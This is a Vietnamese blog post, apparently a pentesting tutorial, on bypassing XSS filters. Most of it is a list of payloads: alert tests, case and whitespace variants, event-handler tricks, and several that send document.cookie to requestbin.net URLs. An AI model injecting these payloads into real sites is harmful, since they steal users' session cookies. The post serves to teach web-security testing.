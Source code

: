 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message
```<script>alert(1);</script>```

### Dùng window location
```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image
```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

## Các payload sử dụng mask
### Case sensitive
```<SCRIPT>alert(1);</SCRIPT>```

```<ScRipT>alert(1);</sCriPt>```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```<script  >alert(1);</script   >```

* Không dùng thẻ script

```<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>```

```<video src=1 onerror=alert(1)>```

```<audio src=1 onerror=alert(1)>```

```<img src=1 href=1 onerror="javascript:alert(1)"></img>```

```<audio src=1 href=1 onerror="javascript:alert(1)"></audio>```

```<video src=1 href=1 onerror="javascript:alert(1)"></video>```

```<input onblur=javascript:alert(1) autofocus><input autofocus>```

```<BODY ONLOAD=alert('XSS')>```

```<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>```

```<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>```

